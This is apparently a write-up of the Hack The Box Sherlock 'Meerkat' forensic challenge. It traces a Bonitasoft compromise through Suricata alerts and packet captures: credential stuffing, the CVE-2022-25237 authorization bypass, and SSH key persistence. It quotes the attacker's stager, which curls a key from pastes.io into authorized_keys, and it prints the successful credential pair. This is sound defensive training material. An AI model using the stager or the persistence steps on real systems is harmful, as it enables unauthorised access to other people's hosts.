






---
tags:
  - htb
  - sherlock
  - easy
urls:
---
---
# HTB Sherlock - Meerkat Writeup

> **Scenario:** As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

# QUESTIONS

1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

**Answer:** `Bonitasoft`

Looking at the provided `Suricata` log shows multiple alerts indicating exploitation of different CVEs against `Bonitasoft`:

```
"alert": {
      "severity": 1,
      "signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
      "category": "Attempted Administrator Privilege Gain",
      "action": "allowed",
      "signature_id": 2036818,
      "gid": 1,
      "rev": 1,
```

Alternatively, filtering for `HTTP` in Wireshark also shows multiple requests to a `/bonita` endpoint, indicating the application running is `Bonitasoft`:



2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

**Answer:** `Credential Stuffing`

Filtering for HTTP `POST` requests reveals approximately 120 login requests targeting different usernames and passwords in a short time frame:



3. Does the vulnerability exploited have a CVE assigned - and if so, which one?

**Answer:** `CVE-2022-25237`

The suricata log provides information about the CVE:
```
"alert": {
      "severity": 1,
      "signature": "ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)",
      "category": "Attempted Administrator Privilege Gain",
      "action": "allowed",
      "signature_id": 2036818,
      "gid": 1,
      "rev": 1,
```


4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

**Answer:** `i18ntranslation`

Following the `POST` requests shows a different URL path to an API in accordance to the exploit of CVE-2022-25237: 



5. How many combinations of usernames and passwords were used in the credential stuffing attack?

**Answer:** `56`

Filtering for `POST` requests using `tshark` returns 57 unique entries, removing the `install:install` entries leave 56 unique combinations.

```bash
tshark -r meerkat.pcap -Y 'http.request.method == POST' -e urlencoded-form.key -e urlencoded-form.value -T fields | awk 'NF' | sort -u | wc -l
```


6. Which username and password combination was successful?

**Answer:** `seb.broom@forela.co.uk:g0vernm3nt`

Removing the noise frames with length 105 containing the same username and password combination of `install:install`, and filtering for `HTTP` shows that the successful authentication returns the successful status code of `204 No content`:



7. If any, which text sharing site did the attacker utilise?

**Answer:** `pastes.io`

Closely following the successful authentication, the file `/etc/passwd` is read and a file is downloaded from `pastes.io`


8. Please provide the filename of the public key used by the attacker to gain persistence on our host.

**Answer:** `hffgra4unv`

The previously downloaded file from `hxxps://pastes.io/raw/bx5gcr0et8` is a stager to download and save a public .ssh key

```
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

9. Can you confirm the file modified by the attacker to gain persistence?

**Answer:** `/home/ubuntu/.ssh/authorized_keys`

The downloaded file saves the following public SSH key to the `.ssh` authorized_keys folder:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?

**Answer:** `T1098.004`

The MITRE ID of this specific persistante method is `T1098.004`:


